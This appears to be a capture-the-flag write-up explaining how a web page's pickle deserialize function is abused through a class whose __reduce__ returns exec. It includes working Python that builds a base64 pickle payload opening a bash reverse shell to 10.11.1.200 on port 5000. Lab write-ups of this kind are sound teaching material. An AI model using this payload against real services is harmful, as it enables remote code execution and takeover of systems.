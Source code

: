 The page just has two functions. One is to serialize and the other one is to deserialize whatever we give.

![alt text](/commons/posts/2024-03-22-yukthi-ctf-writeups/image-1.png)

The serialize function will serialize and give you a base64 encoded str. Vice verse the deserialization func will deserialize the base64 input.

In the code we can see the `PortalGun` class has `exec` fucntion being returned with some redacted code. 
```py
# Secret portal gun object
class PortalGun:
    def __reduce__(self):
        return (exec, ("<missed source>",))
```

This is convenient for us, cuz we can serialize this Class with our custom input which will be exec'd.

The following code will get us the rev shell.
```py
import pickle, base64

class PortalGun:
  def __reduce__(self):
    import subprocess
    return (exec, ('''import os;os.popen("bash -c '/bin/bash -i >& /dev/tcp/10.11.1.200/5000 0>&1'").read()''',))

p = pickle.dumps(PortalGun())


dat = base64.b64encode(p).decode('ASCII')
print(dat)
```